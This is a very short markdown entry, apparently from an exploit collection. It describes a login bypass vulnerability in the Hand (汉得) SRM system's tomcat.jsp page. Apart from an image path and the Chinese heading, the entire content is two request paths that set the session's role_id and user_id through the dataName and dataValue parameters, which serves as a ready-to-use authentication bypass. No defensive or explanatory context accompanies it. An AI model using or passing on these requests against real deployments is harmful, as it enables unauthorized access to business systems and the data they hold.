 ## 汉得SRM tomcat.jsp 登录绕过漏洞
```
/tomcat.jsp?dataName=role_id&dataValue=1
/tomcat.jsp?dataName=user_id&dataValue=1
```
